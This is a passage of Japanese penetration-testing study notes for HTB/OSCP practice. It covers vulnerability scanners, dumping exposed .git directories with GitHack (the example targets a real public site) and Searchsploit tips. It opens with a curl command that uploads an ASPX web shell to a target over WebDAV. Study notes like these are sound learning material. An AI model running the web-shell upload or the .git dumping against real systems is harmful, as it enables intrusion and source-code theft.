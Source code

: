 - WebDAV シェル配置
```
curl -T shell.aspx http://$Target_IP/shell.aspx
```


# 脆弱性の探索

## 脆弱性スキャナー
- [Nessus Essentials](https://community.tenable.com/s/article/Nessus-Essentials)
	- 公式のNessus脆弱性スキャナーの無料バージョン
	- 環境の脆弱性を特定しようとする
	- なんかサーバーにたてて使うらしい
-  [OpenVAS](https://www.openvas.org/)
	- 公開されているオープンソースの脆弱性スキャナー
	- 認証済みおよび非認証済みテストを含むネットワークスキャンを実行できる

セットアッププロセスが開始され、最大30分かかります
- 長すぎだろ
```shell-session
sudo apt-get install gvm && openvas
gvm-setup
```
OpenVas起動
```shell-session
gvm-start
```

`https://< IP >:8080`でアクセスできる

## .Gitが見つかったら

- .gitがあったら、.git/logs/HEADを参照したら、remoteのurl出てきたりすることがある
- GitHackを使って、gitファイルをダンプする
	- [https://github.com/lijiejie/GitHack](https://github.com/lijiejie/GitHack)
```bash
git clone https://github.com/lijiejie/GitHack.git
cd GitHack
python GitHack.py http://www.openssl.org/.git/
```

## XSS (Cross Site Script)

HTBやOSCPではXSSの脆弱性を使うことはないため、真っ先に除外する。  
XSSは他のユーザーが引っかかる必要があるが、HTBやOSCPには対象が存在しない。
- わけではないこともあることがわかった。SeaはXSSからのRCEで侵入できる。

## Searchsploit
### 複数の脆弱性を見つけたとき
 .txtよりもコードが書かれた脆弱性を選ぶべき
 迷った時は数字が後の方の方を選ぶべし
	 より最新で、上手くいく可能性が高いから
